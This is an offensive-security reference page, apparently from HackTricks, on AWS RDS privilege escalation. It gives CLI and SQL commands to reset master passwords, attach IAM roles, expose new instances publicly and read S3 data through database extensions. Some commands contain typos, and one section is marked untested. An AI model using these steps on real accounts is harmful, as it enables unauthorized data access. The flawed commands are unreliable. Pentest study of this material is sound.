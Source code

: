 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Relational Database Service

For more information about RDS check:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

With that permission an attacker can **modify the password of the master user**, and the login inside the database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

> [!WARNING]
> You will need to be able to **contact to the database** (they are usually only accessible from inside networks).

**Potential Impact:** Find sensitive info inside the databases.

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

> [!TIP]
> If running **`SELECT datname FROM pg_database;`** you find a database called **`rdsadmin`** you know you are inside an **AWS postgresql database**.

First you can check if this database has been used to access any other AWS service. You could check this looking at the installed extensions:

```sql
SELECT * FROM pg_extension;
```

If you find something like **`aws_s3`** you can assume this database has **some kind of access over S3** (there are other extensions such as **`aws_ml`** and **`aws_lambda`**).

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can see there if the **cluster has any IAM Role attached** in the field **`AssociatedRoles`**. If any, you can assume that the database was **prepared to access other AWS services**. Based on the **name of the role** (or if you can get the **permissions** of the role) you could **guess** what extra access the database has.

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
   'test1234567890678', // Name of the bucket
   'data.csv',          // Name of the file
   'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

If you had **raw AWS credentials** you could also use them to access S3 data with:

```sql
SELECT aws_s3.table_import_from_s3(
   't', '', '(format csv)',
   :'s3_uri',
   aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

> [!NOTE]
> Postgresql **doesn't need to change any parameter group variable** to be able to access S3.

#### Mysql (Aurora)

> [!TIP]
> Inside a mysql, if you run the query **`SELECT User, Host FROM mysql.user;`** and there is a user called **`rdsadmin`**, you can assume you are inside an **AWS RDS mysql db**.

Inside the mysql run **`show variables;`** and if the variables such as **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, have values, you can assume the database is prepared to access S3 data.

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can check if the cluster has any **associated role**, which usually means access to AWS services).

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBCluster` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.\
Note that some DBs require additional configs such as Mysql, which needs to specify the role ARN in the aprameter groups also.

### `rds:CreateDBInstance`

Just with this permission an attacker could create a **new instance inside a cluster** that already exists and has an **IAM role** attached. He won't be able to change the master user password, but he might be able to expose the new database instance to the internet:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
    --db-instance-identifier mydbinstance2 \
    --db-instance-class db.t3.medium \
    --engine aurora-postgresql \
    --db-cluster-identifier database-1 \
    --db-security-groups "string" \
    --publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **create a new RDS instance with a specified role attached**. The attacker can then potentially **access sensitive data** or modify the data within the instance.

> [!WARNING]
> Some requirements of the role/instance-profile to attach (from [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - The profile must exist in your account.
> - The profile must have an IAM role that Amazon EC2 has permissions to assume.
> - The instance profile name and the associated IAM role name must start with the prefix `AWSRDSCustom` .

```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBInstance` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

> [!WARNING]
> The DB instance must be outside of a cluster for this

```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

{{#include ../../../banners/hacktricks-training.md}}






